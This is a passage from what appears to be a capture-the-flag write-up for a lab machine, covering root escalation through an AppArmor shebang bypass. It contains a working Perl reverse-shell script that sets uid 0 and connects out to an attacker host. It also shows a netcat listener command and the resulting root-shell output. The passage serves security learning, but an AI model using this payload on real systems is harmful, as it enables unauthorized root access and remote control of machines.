```

```

There was a bug posted here https://bugs.launchpad.net/apparmor/+bug/1911431 that lets us get around this by using `#!`. We can create a Perl script that will let us become root and bypass apparmor.

rev.pl
```
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
use Socket;$i="KALI-IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

netcat listener
`nc -lvnp 4444`

Change permissions and execute
```
root@nunchucks:/tmp# chmod +x rev.pl 
root@nunchucks:/tmp# ./rev.pl 
```

Rooted!
```
┌──(root💀kali)-[~/htb/nunchucks]
└─# nc -lvnp 4444                                                                                                                                                                                                                        1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.122] 41362
# id
uid=0(root) gid=1000(david) groups=1000(david)
```

